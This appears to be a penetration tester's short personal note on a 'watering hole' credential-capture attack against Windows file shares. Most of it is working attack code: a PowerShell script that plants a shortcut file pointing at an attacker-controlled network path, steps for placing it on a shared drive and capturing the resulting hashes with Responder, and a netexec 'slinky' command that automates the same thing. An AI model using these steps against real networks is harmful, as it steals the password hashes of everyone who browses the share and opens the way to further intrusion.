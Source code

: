 Watering hole attack
We make a file that executes a powershell script that tries to resolve, but throws a hash your way instead

```$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\10.20.30.40\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

- Put that into your PS, save the file
- Change the name of the file so that it's loaded first when navigating to a file system
- Once it's in a place that everyone goes to (watering hole), open up [[Responder]]
- Watch the hashes come in

Also a module in [[crackmapexec]] called "slinky"
`netexec smb [target IP] -d [domain] -u [user] -p [password] -M slinky -o NAME=[name of the file] SERVER=[attacker IP]`